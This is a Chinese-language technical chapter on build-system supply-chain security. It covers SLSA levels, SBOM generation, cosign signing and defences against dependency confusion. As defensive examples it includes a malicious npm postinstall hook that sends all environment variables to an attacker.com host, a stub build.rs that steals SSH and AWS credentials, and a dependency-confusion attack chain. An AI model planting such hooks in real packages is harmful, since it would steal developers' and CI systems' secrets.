

---
tags:
  - build-systems
  - tier3
  - supply-chain-security
  - slsa
  - sbom
  - sigstore
---
# 构建系统安全性与供应链

> [!abstract] TL;DR
> 构建系统是软件供应链中最高密度的攻击面：一次成功的构建环境入侵可以污染数千个下游用户的制品。SLSA 四级框架提供了从"无保证"到"完全可验证"的渐进路径；SBOM（软件物料清单）使供应链可审计；Sigstore cosign 实现了无密钥签名验证。本章包含真实攻击手法描述，**仅用于防御研究**。

> [!caution] 免责声明
> 本章中描述的攻击技术（依赖混淆、typosquatting、恶意构建脚本注入等）**仅用于防御研究与安全意识培训**。在未经授权的系统上实施这些技术是违法行为。所有示例均以防御视角呈现。安全研究人员如需测试，应在自建的隔离环境中进行。

## 概述与定位

### 构建系统为何是首要攻击面

软件供应链攻击的价值在于"一次入侵，万倍传播"。构建系统处于供应链的核心节点：

```
源代码（开发者写） → 构建系统（编译/打包） → 分发渠道（CDN/仓库） → 最终用户
```

2020 年的 SolarWinds 攻击正是在构建系统环节植入恶意代码，最终影响了 18000 多个组织。2021 年的 ua-parser-js npm 包投毒，导致数百万次下载安装了挖矿程序。

### 攻击向量分类

| 攻击类型 | 入侵点 | 典型案例 |
|---------|------|---------|
| 依赖混淆 | 包仓库 | Birsan 2021 |
| Typosquatting | 包仓库 | `requets` → `requests` |
| 恶意构建脚本 | build.rs / postinstall | event-stream 2018 |
| CI/CD 环境入侵 | 构建服务器 | SolarWinds 2020 |
| 镜像投毒 | Docker Hub | 多起挖矿镜像事件 |
| 代码仓库入侵 | Git 历史篡改 | 罕见但存在 |

## 原理与机制

### SLSA 四级模型详解

SLSA（Supply-chain Levels for Software Artifacts，读作"Salsa"）是 Google 主导、CNCF 托管的框架，定义了四个安全级别：

| 级别 | 名称 | 关键要求 | 可防御的威胁 |
|------|------|---------|------------|
| **L0** | 无保证 | 无任何要求 | — |
| **L1** | 文档化 | 构建过程有记录（Provenance 文档存在） | 意外错误 |
| **L2** | 托管 | 构建在托管 CI 上执行；Provenance 由 CI 签名 | 单点内部攻击 |
| **L3** | 强化 | 完全可重现构建；Provenance 经验证；Builder 本身可审计 | 持续性内部威胁 |

**SLSA L3 的关键要求**：
- 构建在沙盒环境执行（如 Bazel 的沙盒或 hermetic 容器）
- 所有输入（源码+依赖）均有加密哈希记录
- Provenance（来源证明）由 Builder 的私钥签名，Builder 私钥不可被开发者访问
- 第三方可独立验证 Provenance

### 攻击向量详细原理

#### 依赖混淆攻击完整攻击链

```
1. 侦察：攻击者扫描 GitHub 泄露的 package.json / requirements.txt
   → 发现 "target-corp-internal-utils" 包名，PyPI 上不存在

2. 投毒：攻击者向 PyPI 上传
   名称: "target-corp-internal-utils"
   版本: 9.9.9（远高于内部版本 1.2.3）
   包内容: postinstall 钩子或 __init__.py 中含反弹 shell

3. 触发：
   - 若 pip 配置了 extra-index-url，同时查询公私仓库
   - pip 选择版本最高的包 → 安装恶意 9.9.9 版本
   - 受影响范围：所有开发者本机 + 所有 CI 构建

4. 执行：
   - postinstall 钩子在 pip install 过程中以安装用户权限执行
   - 可读取 SSH 密钥、AWS 凭证、git 配置等敏感信息
   - 建立持久化后门或外泄数据
```

#### Typosquatting 检测

常见 typosquatting 模式：
- 字符替换：`requets`（遗漏字母）
- 分隔符变换：`python-dotenv` vs `python_dotenv`
- 前缀/后缀添加：`requests-secure`

```bash
# 使用 TypoSquat 检测工具
pip install typogard
typogard check requirements.txt

# npm
npm install -g @lirantal/package-checker
pkgchecker check --package requests
```

#### 恶意 npm postinstall 钩子

```json
// 恶意包的 package.json
{
  "name": "innocent-looking-package",
  "scripts": {
    "postinstall": "node -e \"require('https').get('https://attacker.com/exfil?data='+Buffer.from(JSON.stringify(process.env)).toString('base64'))\""
  }
}
```

`npm install` 时，`postinstall` 脚本自动执行，可外泄全部环境变量（含 `NPM_TOKEN`、`AWS_ACCESS_KEY_ID` 等 CI 密钥）。

#### 恶意 build.rs（Cargo）

```rust
// 恶意 crate 的 build.rs
fn main() {
    // 看似无害的 "检测系统" 代码
    if std::env::var("CI").is_ok() {
        // CI 环境中：外泄凭证
        let home = std::env::var("HOME").unwrap_or_default();
        // 读取 ~/.ssh/id_rsa, ~/.aws/credentials 等
        // 通过 HTTP 发送到攻击者服务器
    }
}
```

## 结构/算法/伪代码详解

### SBOM 生成示例（syft）

SBOM（Software Bill of Materials）是软件制品中所有组件的清单，格式标准有：
- **SPDX**（Software Package Data Exchange，Linux Foundation）
- **CycloneDX**（OWASP）

```bash
# 安装 syft
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sh -s -- -b /usr/local/bin

# 为容器镜像生成 SBOM
syft my-app:latest -o spdx-json > sbom.spdx.json

# 为目录生成 SBOM
syft dir:./my-project -o cyclonedx-json > sbom.cyclonedx.json

# 为 Cargo 项目生成 SBOM（包含所有 Rust crate）
syft dir:. --scope all-layers -o spdx-json > sbom.spdx.json

# 使用 grype 扫描 SBOM 中的已知漏洞
grype sbom:sbom.spdx.json
```

### Sigstore cosign 签名验证示例

Sigstore 是 Linux Foundation 支持的开放签名基础设施，cosign 支持**无密钥签名**（使用 OIDC 临时密钥，签名记录在公开的透明日志 Rekor 中）：

```bash
# 安装 cosign
brew install cosign

# 无密钥签名容器镜像（使用 GitHub Actions OIDC 令牌）
# 在 GitHub Actions 中：
cosign sign --yes ghcr.io/myorg/my-app:v1.0.0

# 验证签名
cosign verify \
  --certificate-identity "https://github.com/myorg/my-app/.github/workflows/release.yml@refs/tags/v1.0.0" \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com" \
  ghcr.io/myorg/my-app:v1.0.0

# 签名 SBOM 文件
cosign sign-blob --yes sbom.spdx.json --bundle sbom.spdx.json.bundle

# 验证 SBOM 签名
cosign verify-blob \
  --bundle sbom.spdx.json.bundle \
  --certificate-identity "..." \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com" \
  sbom.spdx.json
```

### 依赖混淆防御配置

```toml
# pip: pip.conf —— 完全使用私有镜像（不使用 extra-index-url）
[global]
index-url = https://artifactory.example.com/artifactory/api/pypi/pypi-virtual/simple/
# 私有镜像代理 PyPI，企业包优先，公共包通过代理透传
# 禁止：extra-index-url（会导致公共仓库竞争）
```

```bash
# npm: .npmrc —— scope 锁定
@mycompany:registry=https://npm.example.com/
# 内部包以 @mycompany/ scope 命名，只从内部仓库下载
# 公共包仍从 npmjs.com 下载，但 scope 不同，无法混淆
```

```toml
# Cargo: .cargo/config.toml —— 私有 registry
[registries]
my-company = { index = "https://registry.example.com/git/index" }

# 依赖声明时指定 registry
# Cargo.toml
[dependencies]
internal-lib = { version = "1.0", registry = "my-company" }
```

### 供应链攻击面地图 Mermaid



## 工具视角与实战

### 多生态漏洞扫描

```bash
# Rust
cargo audit                          # RustSec 数据库
cargo deny check advisories          # 更细粒度的策略

# Node.js
npm audit
npm audit --json | jq '.vulnerabilities | to_entries[] | select(.value.severity=="critical")'

# Python
pip-audit -r requirements.txt
safety check -r requirements.txt --json

# 容器镜像（包含所有生态）
grype my-app:latest
trivy image my-app:latest

# SLSA Provenance 文档生成（GitHub Actions）
# 使用 slsa-framework/slsa-github-generator
```

### SLSA Provenance 文档生成

```yaml
# .github/workflows/release.yml
jobs:
  build:
    outputs:
      digests: ${{ steps.hash.outputs.digests }}
    steps:
      - name: Build artifact
        run: cargo build --release
      
      - name: Generate artifact hash
        id: hash
        run: |
          sha256sum target/release/my-app > checksums.txt
          echo "digests=$(cat checksums.txt | base64 -w0)" >> "$GITHUB_OUTPUT"

  provenance:
    needs: build
    # 使用 SLSA 官方 Action 生成并签名 Provenance 文档
    uses: slsa-framework/slsa-github-generator/.github/workflows/generator_generic_slsa3.yml@v2.0.0
    with:
      base64-subjects: "${{ needs.build.outputs.digests }}"
    permissions:
      id-token: write   # 需要 OIDC 令牌
      contents: write
      actions: read
```

### cargo-deny 策略检查

```toml
# deny.toml —— 项目级策略配置
[advisories]
db-urls = ["https://github.com/rustsec/advisory-db"]
vulnerability = "deny"
unmaintained = "warn"
yanked = "deny"

[licenses]
unlicensed = "deny"
allow = ["MIT", "Apache-2.0", "BSD-2-Clause", "BSD-3-Clause"]
deny = ["GPL-2.0", "AGPL-3.0"]  # 拒绝 copyleft 许可证

[bans]
multiple-versions = "warn"    # 警告同包多版本（增大攻击面）
deny = [
    { name = "openssl", version = "<3.0" },  # 禁止过旧的 OpenSSL 绑定
]
```

## 安全性与正确使用

> [!caution] 关于依赖混淆攻击的说明
> 本节描述的攻击链已在多个真实事件中被利用，包括针对 Microsoft、Apple、PayPal 等大型企业的测试（Alex Birsan 2021 年白帽测试）。理解攻击机制是构建有效防御的前提。**切勿在未获授权的环境中测试这些技术。**

### 防御清单

**仓库配置层**：
- [ ] 内部包使用唯一 scope 或命名空间前缀（`@mycompany/`）
- [ ] pip 只配置 `index-url`，不使用 `extra-index-url`（或使用代理模式聚合）
- [ ] Cargo 内部 crate 注册到私有 registry，依赖中显式指定 `registry = "internal"`

**构建系统层**：
- [ ] 锁定构建工具版本（Dockerfile 中固定工具哈希而非 tag）
- [ ] 在无网络访问的沙盒中构建（防止 build.rs 外泄数据）
- [ ] 所有依赖哈希固定（Cargo.lock / package-lock.json 提交到仓库）

**制品分发层**：
- [ ] 容器镜像使用 cosign 签名，部署时验证签名
- [ ] 生成 SBOM 并与每次发布关联存档
- [ ] 实现 SLSA L2（至少）：在托管 CI 上构建，Provenance 由 CI 签名

**持续监控层**：
- [ ] CI 中运行 `cargo audit` / `npm audit` / `pip-audit`，发现高危漏洞阻断流水线
- [ ] 订阅使用的包的安全公告（GitHub Advisory、RustSec RSS）
- [ ] 定期使用 `grype` / `trivy` 扫描已部署的容器镜像

## 小结

构建系统安全不是一次性工作，而是需要在架构、流程和工具三个层面持续投入的工程实践。SLSA 框架提供了清晰的目标层级，大多数团队应优先实现 L2（托管 CI + 签名 Provenance），再逐步向 L3 演进。SBOM 和 cosign 的组合使制品可审计、可验证，是现代软件供应链安全的最小可行基础设施。

## 相关阅读

- [SLSA 官网](https://slsa.dev/)
- [Sigstore / cosign](https://docs.sigstore.dev/)
- [SPDX 规范](https://spdx.dev/)
- [CycloneDX 规范](https://cyclonedx.org/)
- [Dependency Confusion 论文（Alex Birsan 2021）](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)
- [anchore/syft](https://github.com/anchore/syft)

---
[[00.构建系统横向对比总览|⬆ 系列总览]] | [[11.分布式构建与远程执行|← 上一章]] | [[13.构建系统性能优化与实战选型|→ 下一章]]
